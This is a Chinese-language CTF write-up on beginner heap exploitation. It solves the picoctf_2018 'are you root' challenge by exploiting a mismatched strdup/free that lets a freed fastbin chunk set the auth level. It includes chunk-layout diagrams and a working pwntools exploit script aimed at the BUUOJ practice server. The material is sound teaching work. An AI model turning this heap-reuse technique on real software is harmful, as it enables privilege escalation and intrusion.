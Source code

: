 # pwn初学者的进阶（三）：堆学习


## 0x00 前言
零零散散地看了两三天时间才把堆的一些基础内容与一道题看懂😑

## 0x01 picoctf_2018_are you root
[题目链接](https://buuoj.cn/challenges#picoctf_2018_are%20you%20root)

感天动地，我居然自己做出了一道堆题，虽然这题非常简单。

每次`login`的时候，chunk布局如下所示（假设输入用户名长度<=0x18）：
```
------------------
|       |  0x21 |  allocated
-----------------
|str_ptr| level |
------------------
|       |  0x21 |  allocated
-----------------
| str content.. |
------------------
    top chunk
```

这题的漏洞点在于，`malloc`与`free`的次数不匹配。程序中写入用户名时使用了`strdup`，**这个函数是隐含着`malloc`的调用的，而`reset`时又只进行了一次`free`调用。所以，正常的一次`login`与`reset`操作之后，chunk与fastbin的情况为：
```
------------------
|       |  0x21 |  allocated
-----------------
|str_ptr| level |
------------------
|       |  0x21 |  free
-----------------
| str content.. |
------------------
    top chunk

===================
fastbin: -> -----------------
            |       |  0x21 | 
            -----------------
            | str content.. |
            ------------------
```
所以这时再进行`login`，得到的就是写入了用户名内容的chunk，这是我们可控的。而代表auth-level的值就位于`ptr+0x8`，我们只要在第一次`login`的时候，把该处内容写为`\x05\x00\x00\x00\x00\x00\x00\x00`，然后`reset`，再`login`即可。

exp
```python
from pwn import *
context(os = 'linux', arch = 'amd64')
# context.log_level = 'debug'

p = remote('node4.buuoj.cn', 29378)

def get_flag():
    p.recvuntil(b'Enter your command:\n> ')
    p.sendline(b'get-flag')

def login(content: bytes):
    p.recvuntil(b'Enter your command:\n> ')
    p.sendline(b'login ' + content)

def reset():
    p.recvuntil(b'Enter your command:\n> ')
    p.sendline(b'reset')

payload = b'a'*0x8 + b'\x05'.ljust(8, b'\x00')

login(payload)
reset()
login(b'test')
get_flag()
p.interactive()
```

![image-20210906144421764](image-20210906144421764.png "flag截图")

ps: `#define DWORD __uint32_t`，所以`DWORD`在x86/x64都是**4字节**大小，而不是字面意思的2倍字长。


